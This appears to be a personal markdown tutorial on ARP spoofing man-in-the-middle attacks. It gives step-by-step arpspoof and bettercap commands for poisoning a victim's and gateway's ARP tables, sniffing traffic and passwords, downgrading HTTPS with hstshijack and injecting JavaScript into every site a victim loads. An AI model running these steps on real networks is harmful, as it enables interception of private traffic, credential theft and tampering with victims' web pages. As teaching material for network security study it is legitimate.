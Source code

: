 # MITM attacks (Man In The Midle) - ARP spoofing

### What ARP is?

ARP (Address Resolution Protocol) is a protocol used to map an IP address to a MAC address. It is used to find the hardware address of a host from a known IP address.

### What is ARP spoofing?

ARP spoofing is a type of attack in which a malicious actor sends falsified ARP (Address Resolution Protocol) messages to the target machine and to the default gateway. By doing so, the gateway (router) thinks that the attacker's MAC address is the address of the target machine and the target machine thinks that the attacker's MAC address is the address of the gateway. This way, the attacker can intercept the traffic between the target and the gateway.

## ARP spoofing using arpspoof

### Usage:
```
arpspoof -i <interface> -t <target-ip> <gateway-ip>
arpspoof -i <interface> -t <gateway-ip> <target-ip>
```

> **_NOTE:_**<br>
> By default, the linux kernel does not forward packets between interfaces. <br>
> We want our machine to act as a router, so we need to enable packet forwarding by running the following command:
> ```
> echo 1 > /proc/sys/net/ipv4/ip_forward
> ```

### Attack example:
- victim ip address (the target): 192.168.1.10
- gateway ip address (the router): 192.168.1.1
- interface: eth0

1. Enable IP forwarding
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

2. Launch an ARP spoofing attack to the victim:
```
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
# this command changes the arp table of the target (victim)
```

3. Launch an ARP spoofing attack to the gateway:
```
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10 
# this command changes the arp table of the gateway (router)
```

## ARP spoofing using bettercap

### What is bettercap?

Bettercap is a powerful framework for network attacks and monitoring. It offers more features than arpspoof like:
- ARP spoofing
- Sniff data (url, username, password, ...)
- Bypass HTTPS
- Redirect domain requests (DNS spoofing)
- Inject code in loaded pages
- And more...

It is organized in modules, each module has its own commands and options.

### Install bettercap if not installed
```
apt get install bettercap
```

### Usage:
To launch bettercap run: 
```
bettercap -iface <interface>
```

> **_NOTE:_**<br>
> To get help about bettercap usage type `help` in the bettercap console.<br>
> To get help about a specific module type `help <module-name>`.

### Attack example:

- interface: eth0
- target's ip: 192.168.1.10

1. Enable packet forwarding
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

> **_TO INVESTIGATE:_**<br>
> Last time I run this attack on a wireless I had to run the following commands:
> ```
> iptables -A FORWARD -i wlan0 -j ACCEPT
> iptables -A FORWARD -o wlan0 -j ACCEPT
>```
> - Is this need it if the attacker and/or the victim is using wifi?
> - Is this needed when using wired?

2. Launch bettercap
```
bettercap -iface eth0
```

3. Turn on the probe module<br>
The probe module keeps probing for new hosts on the network by sending dummy UDP packets to every possible IP on the subnet.
```
net.probe on
```
> **_NOTE:_**<br>
> The probe module automatically turns the net.recon module on.<br>
> The net.recon module periodically reads the ARP cache in order to monitor for new hosts on the network.

> **_NOTE:_**<br>
> To show a list of all connected clients on the network type:<br>
> ```
> net.show
> ```
>

4. Set arp spoofing parameters
```
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.10
```
> **_NOTE:_**<br>
> ```set arp.spoof.fullduplex true``` tells bettercap to spoof both target and gateway.
> If you want to spoof multiple targets just enter a list of targets ip separetad by comma.

5. Turn on arp spoof module
```
arp.spoof on
```

6. Capture requests<br>
To see all requests and responses the targets are making and receiving activate the net.sniff module:  
```
net.sniff on
```

> **_NOTE:_**
> You can run bettercap with a list of commands stored in a file like:<br>
> ```
> bettercap -iface <interface> -caplet spoof.cap
> ```

## Downgrade https to http
```
hstshijack/hstshijack
```

## JS injection

- To inject js add the js file to the payload in the 'set hstshijack.payloads' in the file /usr/share/bettercap/caplets/hstshijack/hstshijack.cap

```
*:<path_to_js_file>
```
the star means that the file is injected in every website; to inject only in a specific website do this:
```
<website>:<path_to_js_file>
```
